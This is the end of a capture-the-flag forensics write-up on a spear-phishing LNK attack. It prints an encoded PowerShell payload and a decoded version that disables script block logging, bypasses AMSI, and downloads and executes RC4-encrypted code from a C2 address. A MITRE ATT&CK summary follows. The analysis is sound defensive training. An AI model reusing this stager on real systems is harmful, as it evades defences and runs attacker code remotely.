CQAdwBjAC4ASABFAEEAZABFAHIAcwAuAEEARABEACgAIgBDAG8AbwBrAGkAZQAiACwAIgBzAGUAcwBzAGkAbwBuAD0ATQBDAGEAaAB1AFEAVgBmAHoAMAB5AE0ANgBWAEIAZQA4AGYAegBWADkAdAA5AGoAbwBtAG8APQAiACkAOwAkAHMAZQByAD0AJwBoAHQAdABwADoALwAvADEAMAAuADEAMAAuADkAOQAuADUANQA6ADgAMAAnADsAJAB0AD0AJwAvAGwAbwBnAGkAbgAvAHAAcgBvAGMAZQBzAHMALgBwAGgAcAAnADsAJABmAGwAYQBnAD0AJwBIAFQAQgB7ACQAXwBqADAARwBfAHkAMAB1AFIAXwBNADMAbQAwAHIAWQBfACQAfQAnADsAJABEAGEAdABBAD0AJABXAEMALgBEAG8AVwBOAEwAbwBhAEQARABBAFQAQQAoACQAUwBlAFIAKwAkAHQAKQA7ACQAaQB2AD0AJABkAGEAVABBAFsAMAAuAC4AMwBdADsAJABEAEEAdABhAD0AJABEAGEAVABhAFsANAAuAC4AJABEAEEAdABhAC4ATABlAG4ARwBUAEgAXQA7AC0ASgBPAEkATgBbAEMASABBAHIAWwBdAF0AKAAmACAAJABSACAAJABkAGEAdABBACAAKAAkAEkAVgArACQASwApACkAfABJAEUAWAA=
```

As the previous Powershell Script, I already decoded, commented, and convert it to a more understandable/pretty way.
```powershell
# These three lines are here to disable PowerShell Script Block Logging
$GroUPPOLiCYSEttINGs = [rEF].ASseMBLY.GEtTypE('System.Management.Automation.Utils')."GEtFIEld"('cachedGroupPolicySettings', 'N'+'onPublic,Static').GETValUe($nulL);
$GRouPPOlICySeTTiNgS['ScriptB'+'lockLogging']['EnableScriptB'+'lockLogging'] = 0;
$GRouPPOLICYSEtTingS['ScriptB'+'lockLogging']['EnableScriptBlockInvocationLogging'] = 0;

# Bypass AMSI Utils
[Ref].AsSemBly.GeTTyPE('System.Management.Automation.AmsiUtils') | ?{$_} | %{ $_.GEtFieLd('amsiInitFailed','NonPublic,Static').SETVaLuE($NulL,$True) };

# Disables 100-Continue Behaviour (not going to go deeper on this)
[SysTem.NeT.SErVIcePOIntMAnAgER]::ExpEct100COnTinuE=0;

# Simply, requests a website
$WC=NEW-OBjEcT SysTEM.NEt.WeBClIEnt;
$u='Mozilla/5.0 (Windows NT 6.1; WOW64; Trident/7.0; rv:11.0) like Gecko';
$wC.HeaDerS.Add('User-Agent',$u);
$Wc.PRoXy=[SysTeM.NET.WebRequEst]::DefaULtWeBPROXY;
$wC.PRoXY.CREDeNtIaLS = [SYSTeM.NET.CreDEnTiaLCaChe]::DeFauLTNEtwOrkCredentiAlS;
$K=[SYStEM.Text.ENCODIng]::ASCII.GEtBytEs('E1gMGdfT@eoN>x9{]2F7+bsOn4/SiQrw');
$R = {
    $D,$K = $ArgS;
    $S = 0..255; 0..255 | %{$J=($J+$S[$_]+$K[$_%$K.CounT]) % 256;
    $S[$_],$S[$J] = $S[$J],$S[$_]};
    $D | %{
        $I=($I+1) % 256;
        $H = ($H+$S[$I]) % 256;
        $S[$I], $S[$H] = $S[$H], $S[$I];
        $_-bxoR$S[($S[$I]+$S[$H])%256]
    }
};
$wc.HEAdErs.ADD("Cookie","session=MCahuQVfz0yM6VBe8fzV9t9jomo=");
$ser='http://10.10.99.55:80';
$t='/login/process.php';
$flag='HTB{$_j0G_y0uR_M3m0rY_$}';

# Sadly, we don't have the response from the server in order to dig deeper
$DatA=$WC.DoWNLoaDDATA($SeR+$t);
$iv=$daTA[0..3];
$DAta=$DaTa[4..$DAta.LenGTH]; 
-JOIN[CHAr[]](& $R $datA ($IV+$K)) | IEX
```

This code is more interesting that the last one; It starts with some anti-forensic techniques. The first one tries to disable [Powershell Script Block logging](https://docs.microsoft.com/en-us/powershell/module/microsoft.powershell.core/about/about_logging_windows?view=powershell-7.2), this is to make harder for investigators to get the execution logs of this Powershell. The second technique disables AMSI (Antimalware Scripting Interface). Here is a [blog post](https://www.mdsec.co.uk/2018/06/exploring-powershell-amsi-and-logging-evasion/) that explains it in detail.

The next part of the Powershell is more related with the Command&Control communication. It creates a handle for a WebClient (`$WC=NEW-OBjEcT SysTEM.NEt.WeBClIEnt;`), set its headers and send a request to `http://10.10.99.55:80/login/process.php`. This is another red flag, the forensics on this file indicates that the attacker has another internal machine that it compromised (`10.10.99.55`) and it is using it as an internal C2. The investigation could go deeper but sadly, this is still a challenge and we do not have more playground to play with it.

Happy hunting!!

# Wrapping up & Comments
This challenge was interesting! The attacker used an Email SpearPhishing Attack ([Mitre T1566.002](https://attack.mitre.org/techniques/T1566/002/)) in order to make the recruiter download a `.zip` file. The usage of Social Engineering and some OSINT (since the victim was an actual recruiter) made the victim execute the file ([Mitre T1204.002](https://attack.mitre.org/techniques/T1204/002/)) and it and infected the computer with a malicious LNK file (`resume.pdf.lnk`). This file executed a Powershell that launched a second Powershell process that used Antiforensic techniques, like disabling Powershell Logging ([Mitre T1562.003](https://attack.mitre.org/techniques/T1562/003/)), disabling AMSI ([Mitre T1562.001](https://attack.mitre.org/techniques/T1562/001/)) and script obfuscation ([Mitre T1140](https://attack.mitre.org/techniques/T1140/)). 

This second Powershell connected the victim machine to a Command&Control (C2) via an HTTP Services ([Mitre T1102](https://attack.mitre.org/techniques/T1102/)). Finally, a great insight of this investigation is that the C2 was found inside the company, so this might be bigger than we initially though.



I really had fun doing this challenge and writing this. Even though we got the flag pretty fast, continuing the investigation regarding was a nice excercise! I hope you had fun reading and learning.

**Takeaways**
* Always record everything you see
* Understand how emails are created (EML)
* Great understanding of memory forensics
* Learn powershell, it is mandatory in Windows Forensics
* Learn how C2 works :)
* Have fun! Enjoy hunting.